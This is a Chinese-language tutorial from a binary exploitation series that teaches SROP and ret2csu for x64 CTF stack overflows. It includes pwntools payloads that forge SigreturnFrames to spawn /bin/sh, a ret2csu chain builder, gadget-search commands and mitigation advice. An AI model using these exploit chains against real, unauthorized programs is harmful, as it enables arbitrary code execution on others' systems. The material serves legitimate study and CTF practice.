

# 二进制漏洞与利用基础（15）· SROP 与 ret2csu

> [!abstract] TL;DR
> - SROP（Sigreturn Oriented Programming）利用 `sigreturn` 系统调用从栈上一次性恢复全部寄存器，只需一个 `syscall;ret` gadget 与控制 rax=15 即可构造任意执行状态。
> - 伪造 `sigcontext`（SigreturnFrame）可将 rip/rsp/rdi/rsi/rdx 等所有寄存器设置为任意值，一步到位执行 `execve("/bin/sh",0,0)`。
> - ret2csu 利用 `__libc_csu_init` 末尾通用 gadget 对，在缺少 `pop rdi`/`pop rdx` 时拼出 RDI/RSI/RDX 三个参数并调用任意函数指针。
> - 两种技术分别针对 gadget 极度匮乏场景，是 CTF x64 栈利用的核心进阶手段。
> - 新版 gcc（-static 或 PIE 优化）下 `__libc_csu_init` 可能消失，需掌握替代 gadget 思路。
> - pwntools 对两种技术均有直接支持（`SigreturnFrame`、手工构造 ret2csu 链）。

---

## 概述与定位

在标准 ROP 中，我们通过逐个 pop 寄存器来控制函数参数。但现实中经常遇到两种极端情况：一是二进制体积极小（如静态编译的 x64 最小程序），整个二进制里几乎找不到 `pop rdi; ret`、`pop rdx; ret` 这类常规 gadget；二是 64 位 x86 ABI 中 `rdx` 特别难控制，很多二进制里甚至没有一条 `pop rdx; ret`。

SROP（Sigreturn Oriented Programming）和 ret2csu 分别从不同角度解决了这两个问题，并已成为 x64 CTF 栈利用的标准工具箱。本篇从原理到实战完整覆盖这两种技术，着重讲清楚"为什么这样能工作"——理解了机制，才能在各种变体题目中举一反三。

---

## 原理与机制

### SROP 的信号机制根源

理解 SROP 必须先理解 Linux 信号传递的用户空间恢复路径。当内核向进程投递信号时，如果进程注册了处理函数，内核会在用户栈上布置一个完整的信号帧（signal frame），然后跳转到处理函数。信号帧的核心结构是 `ucontext_t`，其中包含 `sigcontext`——这是被中断时所有通用寄存器的完整快照：rax、rbx、rcx、rdx、rsi、rdi、rbp、rsp、r8–r15、rip、rflags、cs、ss 等全部存在里面。

信号处理函数执行结束后，需要通过 `sigreturn` 系统调用（x64 系统调用号 15，x86 系统调用号 119）告诉内核"我处理完了，请恢复现场"。内核收到 `sigreturn` 后，会直接从用户栈上 rsp 所指的位置读取这个 `sigcontext` 结构，并将所有寄存器恢复为结构中记录的值，然后跳转到 rip 继续执行。

**关键的安全假设缺失**：内核在执行 `sigreturn` 时，**不验证栈上的 `sigcontext` 是否真的是之前自己布置的**。它只是信任 rsp 指向的内存。这就意味着：只要我们能控制 rsp 指向一块我们精心构造的伪 `sigcontext`，并触发 `sigreturn` 系统调用，内核就会按照我们的设计，将所有寄存器设置为任意值，并跳转到任意 rip。

### SROP 的最小 gadget 需求

完成一次 SROP 攻击，理论上只需要：

1. **一个可控的 `syscall; ret` gadget**（或 `int 0x80; ret`）
2. **控制 rax = 15**（x64 sigreturn 系统调用号）
3. **rsp 指向我们伪造的 SigreturnFrame**

控制 rax=15 可以有多种途径：如果程序本身会调用 `read` 并且返回值（读入字节数）恰好为 15，那 rax 自然就是 15；或者有 `pop rax; ret` gadget；或者用先前的系统调用返回值间接控制。这正是 SROP 在 gadget 极度匮乏场景下的威力：只需 `syscall; ret` 这一条，就能完成整个利用链。

### sigcontext/SigreturnFrame 结构（x64）

```
SigreturnFrame (x64，248 字节关键字段布局)
偏移    字段
0x28   uc_mcontext.r8
0x30   uc_mcontext.r9
...
0x68   uc_mcontext.rdi      <- 第一参数
0x70   uc_mcontext.rsi      <- 第二参数
0x78   uc_mcontext.rbp
0x80   uc_mcontext.rbx
0x88   uc_mcontext.rdx      <- 第三参数
0x90   uc_mcontext.rax      <- 系统调用号
0xa0   uc_mcontext.rsp      <- 恢复后的栈指针
0xa8   uc_mcontext.rip      <- 恢复后的指令指针
0xb0   uc_mcontext.eflags
0xb8   uc_mcontext.cs       <- 必须为合法值 0x33（用户态代码段）
0xc0   uc_mcontext.ss       <- 必须为合法值 0x2b（用户态数据段）
```

可以看到，一个 `sigreturn` 调用等价于"一次性设置几乎全部寄存器"——这是 ROP 中其他任何技术都做不到的。通常要控制三个参数（rdi/rsi/rdx）需要三条独立 gadget，而 SROP 只需一个帧。cs/ss 字段 pwntools 会自动填写正确的用户态默认值，手工构造时务必不要漏掉。

### execve("/bin/sh") 的 SROP 范式

最常见的目标是执行 `execve("/bin/sh", NULL, NULL)`：
- `rax = 59`（execve 系统调用号）
- `rdi = &"/bin/sh"` 字符串地址
- `rsi = 0`
- `rdx = 0`
- `rip = syscall 地址`（触发 sigreturn 后再执行 execve）

因此整个利用流程是：触发 sigreturn（rax=15）→ 内核恢复寄存器为伪帧内容（其中 rax=59, rdi=binsh_addr, rsi=0, rdx=0, rip=syscall_addr）→ 回到用户态时直接执行了 `execve("/bin/sh")`。这里有一个容易混淆的细节：执行 `sigreturn` 的那次 `syscall` 和 sigcontext 中记录的 `rip=syscall_addr` 是**同一个** `syscall` gadget 地址——sigreturn 执行完毕后，rip 被设置为这个地址，rax 被设置为 59，然后再次执行 `syscall` 触发 execve。

### ret2csu：x64 ABI 参数控制难题

x64 Linux 调用约定前六个参数依次使用 rdi/rsi/rdx/rcx/r8/r9。对于任意函数调用，最常用的是前三个。rdi 通常好解决（`pop rdi; ret` 非常常见），rsi 也有 `pop rsi; ret`，但 **rdx** 几乎在所有只用标准库的小型二进制里都找不到 `pop rdx; ret`。

`__libc_csu_init` 是 gcc 默认生成的初始化函数，负责调用全局构造函数列表。其末尾有两段固定汇编，构成著名的"ret2csu gadget 对"。这个函数在非 PIE、非静态的 x64 ELF 中几乎必然存在，地址固定（无需泄露），是 gadget 匮乏时的救命稻草。

### __libc_csu_init 的两段 gadget（经典形式）

**Gadget 1**（函数末尾，pop 一堆寄存器）：

```asm
pop rbx      ; 置 0，配合 call [r12+rbx*8] 使索引偏移为 0
pop rbp      ; 置 1，循环终止条件
pop r12      ; 函数指针所在地址（GOT 条目地址等）
pop r13      ; 值将传给 rdx
pop r14      ; 值将传给 rsi
pop r15      ; 值将传给 edi（低 32 位，注意！）
ret
```

**Gadget 2**（函数中部，传参并 call）：

```asm
mov rdx, r13       ; 第三参数
mov rsi, r14       ; 第二参数
mov edi, r15d      ; 第一参数（仅写 edi，rdi 高 32 位零扩展）
call [r12+rbx*8]   ; 间接调用
add rbx, 1
cmp rbp, rbx
jne <gadget2_start>
; 循环退出后继续往下，会顺序执行类似 gadget1 的 pop 序列
; 需要额外 56 字节 padding 吸收这些 pop
```

利用时：设 rbx=0、rbp=1（让循环仅执行一次），r12 指向存有目标函数地址的内存（如 GOT 条目），r13/r14/r15 分别对应 rdx/rsi/edi。调用完目标函数后，代码会继续执行到额外的 pop 指令，需要填 56 字节 padding，然后才能接上后续 ROP 链。

**rdx 控制的核心价值**：通过 r13→rdx，我们终于有了在无 `pop rdx` gadget 的情况下控制第三个参数的手段，可以配合 read(0, addr, size)、write(1, addr, size)、mprotect 等需要第三参数的调用。

---

## 结构/算法/伪代码详解

### SROP 触发与寄存器恢复流程



### SROP 完整利用链伪代码（pwntools）

```python
from pwn import *

elf = ELF('./target')
context.arch = 'amd64'
context.os = 'linux'

# 假设已知：
# syscall_ret_addr: 二进制中 syscall;ret 的地址
# binsh_addr: 已泄露或布置的 "/bin/sh\x00" 地址
# 触发方式: read(0, buf, ?) 读入 payload，返回字节数可精确控制

# 构造 SigreturnFrame
frame = SigreturnFrame()
frame.rax = constants.SYS_execve   # 59
frame.rdi = binsh_addr
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall_ret_addr       # sigreturn 后立即执行 syscall
frame.rsp = binsh_addr + 8         # 后续栈，可随意设置

# 构造 payload
# 注意：整个 payload 长度 = offset + 8（返回地址） + 248（frame）
# 令 read 读入 payload 后恰好 rax 留在你想要的值
# 更简单方案：用 pop rax; ret 设置 rax=15

payload  = b'A' * buf_offset
payload += p64(syscall_ret_addr)   # 覆盖返回地址，此时 rax 须为 15
payload += bytes(frame)            # 248 字节 sigcontext

# 如果没有 pop rax，让 read 返回值=15（精确控制 payload 字节数）：
# 令 payload 总长度恰好使 read 的返回值为 15
# 此时 payload 中的 frame 只有前 15 字节被写入，其余需提前布置在内存中
# 实践中常见做法：分两次 read，第一次控制 rax=15，第二次写完整 frame

io = process('./target')
io.sendline(payload)
io.interactive()
```

### SROP 栈布局（触发 sigreturn 时）

```
高地址
+----------------------------------+
|   ... 原始栈帧 ...                |
+----------------------------------+  <- 原 ret addr 被覆盖
|   syscall;ret 地址 (8 字节)       |  <- rip 跳这里，rax=15 → sigreturn
+----------------------------------+  <- 执行 syscall 时 rsp 指向此处
|   SigreturnFrame (248 字节)       |
|   +-- rax = 59 (execve)          |
|   +-- rdi = &"/bin/sh"           |
|   +-- rsi = 0                    |
|   +-- rdx = 0                    |
|   +-- rip = syscall_addr         |
|   +-- rsp = 任意有效地址           |
|   +-- cs  = 0x33 (用户态)         |
|   +-- ss  = 0x2b (用户态)         |
|   +-- ... 其他寄存器置 0 ...       |
+----------------------------------+
低地址
```

内核执行 `sigreturn` 时，会把 rsp 指向的 SigreturnFrame 读出来，然后所有寄存器恢复成帧里的值，rip 跳到 `syscall_addr`，此时 rax=59、rdi=binsh_addr，正好执行 execve。

### ret2csu 完整利用链伪代码

```python
from pwn import *

elf = ELF('./target')
context.arch = 'amd64'

# __libc_csu_init 中两段 gadget 的地址（objdump -d 查找）
# 典型 gadget1: 函数末尾 'pop rbx' 处
# 典型 gadget2: 函数中部 'mov rdx, r13' 处
gadget1 = elf.sym['__libc_csu_init'] + 0x5a  # 具体偏移因编译版本而异
gadget2 = elf.sym['__libc_csu_init'] + 0x40

def ret2csu_call(r12_ptr, rdx_val, rsi_val, rdi_val, ret_addr):
    """构造一次 ret2csu 调用的 payload 片段，共 8*8+56+8=128 字节"""
    payload = b''
    # === 阶段1: gadget1 pop 填寄存器 ===
    payload += p64(gadget1)
    payload += p64(0)           # rbx = 0（偏移基准）
    payload += p64(1)           # rbp = 1（循环只跑一次）
    payload += p64(r12_ptr)     # r12: 函数指针所在内存地址（如 GOT 条目）
    payload += p64(rdx_val)     # r13 → 最终写入 rdx
    payload += p64(rsi_val)     # r14 → 最终写入 rsi
    payload += p64(rdi_val)     # r15 → 最终写入 edi（仅低 32 位！）
    # === 阶段2: gadget2 传参并 call ===
    payload += p64(gadget2)
    # gadget2 执行: mov rdx,r13; mov rsi,r14; mov edi,r15d; call [r12+0]
    # call 返回后: add rbx,1→rbx=1; cmp rbp,rbx→1==1 满足; 退出循环
    # 继续顺序执行 gadget1 位置之前的几条 pop（共消耗 7 个 8 字节值）
    payload += b'\x00' * 56     # padding 吸收尾部 pop r12/r13/r14/r15/rbp/rbx 等
    # === 阶段3: 后续 ROP ===
    payload += p64(ret_addr)
    return payload

# 示例：调用 read(0, bss_addr, 0x100) 向 bss 写 /bin/sh
payload  = b'A' * buf_offset
payload += ret2csu_call(
    r12_ptr = elf.got['read'],     # GOT 中存 read 真实地址
    rdx_val = 0x100,               # size
    rsi_val = elf.bss() + 0x100,   # buf
    rdi_val = 0,                   # fd
    ret_addr = main_addr           # 读完后回 main 再次利用
)
```

### ret2csu 栈布局细节

```
执行 gadget1 之前的栈状态（rsp 从低到高，ret 消耗最低处）：

  [rsp+0 ]  gadget1 地址          <- ret 到这里开始执行
  [rsp+8 ]  0      (rbx = 0)
  [rsp+16]  1      (rbp = 1)
  [rsp+24]  r12_ptr               <- 存目标函数地址的内存
  [rsp+32]  rdx_val (→ r13)
  [rsp+40]  rsi_val (→ r14)
  [rsp+48]  rdi_val (→ r15/edi)
  [rsp+56]  gadget2 地址          <- gadget1 最后 ret 跳这里
            [gadget2 执行: call [r12+0]; add rbx,1; cmp rbp,rbx; 退出循环]
            [接着顺序执行类似 gadget1 初始的 pop 序列，消耗如下 56 字节]
  [rsp+64]  pad×7  (56 字节)      <- 被尾部 pop 吸收
  [rsp+120] ret_addr              <- 最终 ret 到这里继续 ROP
```

### 新版 gcc/__libc_csu_init 消失的应对

在以下场景中 `__libc_csu_init` 不再存在：
- `gcc -static` 配合新版 glibc（2.34+，`__libc_csu_init` 已从 glibc 移除）
- PIE + LTO 优化可能让它内联消失
- musl libc 根本没有这个函数

替代思路：

1. **寻找其他函数末尾的相似 pop 序列**：用 ROPgadget/ropper 搜索 `pop r13; pop r14; pop r15; ret` 或等价序列，很多函数末尾有类似结构。
2. **`_init` / `_fini` 里的 gadget**：静态链接时这些节里有时保留有用的 mov/pop 链，值得重点搜索。
3. **ret2dlresolve**：如果有延迟绑定，用 07 篇的技术直接解析目标函数而不需要 rdx 控制。
4. **SROP 替代**：如果有 `syscall; ret`，直接用 SROP 一步到位，完全绕开 rdx 控制问题——这也是为何 CTF 中 SROP 和 ret2csu 常常作为互补手段同时掌握。
5. **one_gadget**：在 glibc 地址已知时，查找直接获得 shell 的单条 gadget，完全绕过参数控制问题。

---

## 工具视角与实战

### pwntools SigreturnFrame 使用细节

pwntools 的 `SigreturnFrame` 自动根据 `context.arch` 和 `context.os` 选择正确的帧结构（x64/x86/arm），并填写 cs/ss 等段寄存器的默认值（普通用户态程序的正常值）。

```python
context(arch='amd64', os='linux')
frame = SigreturnFrame()

# 字段直接赋值，不需要手动计算偏移
frame.rax = 0x3b        # execve
frame.rdi = 0x601000    # "/bin/sh" 地址
frame.rsi = 0
frame.rdx = 0
frame.rip = 0x400100    # syscall 地址
frame.rsp = 0x602000    # 执行完 execve 失败时的栈（通常无所谓）

# bytes(frame) 得到 248 字节的完整 sigcontext
payload = b'A' * offset + p64(syscall_gadget) + bytes(frame)
```

`SigreturnFrame` 还可以设置 `frame.rsp`，用于执行 sigreturn 后继续 ROP 而不是直接执行系统调用。这在"先 SROP 做 mprotect，再执行 shellcode"的两步链中很有用：第一个 frame 设置 rax=10(mprotect)、rdi=页对齐地址、rsi=长度、rdx=7(rwx)、rip=syscall，rsp 指向第二段 ROP；mprotect 成功后跳转到可执行的内存上的 shellcode。

### 用 ROPgadget 定位 ret2csu 偏移

```bash
# 找 __libc_csu_init 函数完整汇编
objdump -d ./target | grep -A 60 '<__libc_csu_init>'

# 用 ROPgadget 搜索特征序列
ROPgadget --binary ./target --rop | grep "pop rbx"
ROPgadget --binary ./target --rop | grep "mov rdx, r13"

# 计算偏移：
# gadget1 = __libc_csu_init 函数内 'pop rbx' 那行的地址
# gadget2 = __libc_csu_init 函数内 'mov rdx, r13' 那行的地址
# 两者之间通常相差 0x1a 字节（视编译版本而异）
```

### CTF 典型场景：只有 read + syscall

这是最极端的 gadget 匮乏场景（常见于小型静态编译 CTF 题）：

1. 先用 read 向 BSS 写入 `"/bin/sh\x00"` 字符串（read 调用完 rax = 读入字节数）
2. 精确控制 read 的字节数使其返回 15（向目标写入 exactly 15 字节）
3. ret 到 `syscall; ret`，触发 sigreturn
4. sigcontext 中设置 rax=59，rdi=binsh_addr，rsi=0，rdx=0，rip=syscall_addr
5. 获得 shell

这个思路的精妙之处在于：第一次 read 既布置了字符串，又通过返回值设置了 rax，整个攻击链用到的 gadget 只有 `syscall; ret` 一条。

### 两种技术的组合使用

SROP 和 ret2csu 并不互斥，实战中常见组合：

- **ret2csu 读入 frame + SROP 执行**：用 ret2csu 调用 `read(0, bss, 248)` 读入完整 SigreturnFrame，然后用 SROP 执行 execve。这样避免了在栈溢出 payload 里硬塞 248 字节 frame 的空间压力。
- **SROP mprotect + shellcode**：当栈不可执行时，先用 SROP 调用 mprotect 让 BSS/堆可执行，再跳到写入的 shellcode。

---

## 安全性与正确使用

> [!caution]
> 本节涉及真实内核信号机制利用与高级 ROP 技术，实际演示复现需严格限定在以下场景：
> - 你自己编写和编译的测试程序（自有环境）
> - 明确获得书面授权的渗透测试目标
> - CTF 竞赛官方提供的题目环境（离线/docker/远程靶机）
> - 在专用安全研究隔离环境（虚拟机/容器）中进行
>
> **禁止**在未授权的生产系统、他人服务器或公共互联网目标上使用这些技术。本文所有示例均以防御理解和 CTF 学习为目的，不构成任何形式的攻击授权。

### SROP 的缓解措施

**从防御角度看**，SROP 的根本原因是 Linux 信号恢复机制缺乏对 sigcontext 的验证。现代缓解措施：

- **ASLR**：使 `syscall; ret` gadget 地址不可预测，需要结合信息泄露才能定位。
- **vsyscall/vDSO 限制**：现代内核的 vDSO 映射地址随机化，降低了"免费 syscall gadget"的可用性；但 vDSO 固定映射的旧内核（pre-ASLR）上是常见 gadget 来源。
- **Seccomp**：通过系统调用过滤白名单，即使触发 sigreturn 也无法执行 execve。这是最有效的单点防御。docker 默认的 seccomp profile 就过滤了多个危险调用。
- **CFI（Control Flow Integrity）**：限制 indirect jump/call，但对纯 ret-based 的 SROP 效果有限，因为 `ret` 通常不在 CFI 保护范围内（除非配合 Intel CET Shadow Stack）。

防御建议：敏感服务应启用 seccomp 过滤（docker 默认开启子集），限制 `execve`、`sigreturn` 等高危调用。编写最小权限的 seccomp 白名单是当前最务实的防御手段。

### ret2csu 的缓解

- `__libc_csu_init` 在 glibc 2.34（2021 年）已从 glibc 移除，转到独立的 `crt1.o`，且新版本中函数体更简化，通用 gadget 对不再存在——这是 glibc 对这种利用技术的直接回应。
- **Full RELRO**：使 GOT 只读，攻击者无法篡改 GOT 条目，但 ret2csu 本身是读 GOT 条目（间接调用），Full RELRO 不阻止这一步，只影响后续的 GOT 劫持组合。
- **PIE**：二进制基址随机化，需要泄露才能计算 gadget 地址，有效提高利用门槛。
- **Stack Canary**：阻止朴素的栈溢出，需要结合格式化字符串等手段先泄露 canary。

---

## 小结

SROP 的核心洞察在于：信号恢复是内核提供的"将栈上数据批量写入寄存器"的合法路径，而这条路径缺乏来源验证。掌握 SROP 意味着理解了 Linux 信号机制的底层实现，这对于理解内核安全边界本身也大有裨益。一个 `syscall; ret` 加上 248 字节的伪造帧，就能完成标准 ROP 链需要十几个 gadget 才能完成的工作。

ret2csu 则揭示了 ABI 与编译器生成代码之间的一个有趣张力：为了调用构造函数列表，gcc 生成了一段通用的间接调用代码，而这段代码恰好能被重用为参数控制的 gadget。随着 glibc 2.34 的修复，这种技术的适用范围在收窄，但理解它的原理有助于在新的上下文中发现类似的通用 gadget 对。

两种技术都体现了二进制利用的本质——**将程序已有的合法指令序列组合成攻击者期望的行为**，无需注入任何新代码。这也是为什么防御不能仅靠"不执行栈上的代码"，必须从整体上限制程序的能力边界（如 seccomp 限制可执行的系统调用集合）。

---

## 相关阅读

- [[06.ROP入门]]
- [[07.GOT劫持与ret2dl-resolve]]
- [[12.缓解机制总览]]
- [[13.现代利用与信息泄露]]
- [[16.栈迁移与JOP-COP]]

---

⬅️ 上一篇 [[14.安全开发与防御]] ｜ 🏠 [[00.二进制漏洞与利用基础总览]] ｜ 下一篇 [[16.栈迁移与JOP-COP]] ➡️
